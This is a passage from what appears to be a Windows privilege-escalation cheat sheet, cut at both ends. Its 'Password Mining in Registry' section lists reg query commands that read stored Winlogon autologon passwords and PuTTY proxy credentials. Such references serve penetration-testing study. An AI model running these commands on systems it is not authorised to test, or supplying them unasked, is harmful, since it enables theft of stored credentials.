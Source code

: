 Select the Copy the Base64 encoded string.

In command prompt type: echo -ne \[Base64 String\] \| base64 -d

<a name="password-mining-in-registry"></a>
# Password Mining in Registry

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

Open command and type:

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\CurrentVersion\\Winlogon\" /v

DefaultUsername

2\.

In command prompt type:

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\CurrentVersion\\Winlogon\" /v

DefaultPassword

3\.

Notice the credentials, from the output.

4\.

In command prompt type:

reg query
HKEY_CURRENT_USER\\Software\\SimonTatham\\PuTTY\\Sessions\\BWP123F42

-v ProxyUsername

5\.

In command prompt type:

reg query
HKEY_CURRENT_USER\\Software\\SimonTatham\\PuTTY\\Sessions\\BWP123F42

-v ProxyPassword

6\. Notice the credentials, from the output.

7\.

In command prompt type:
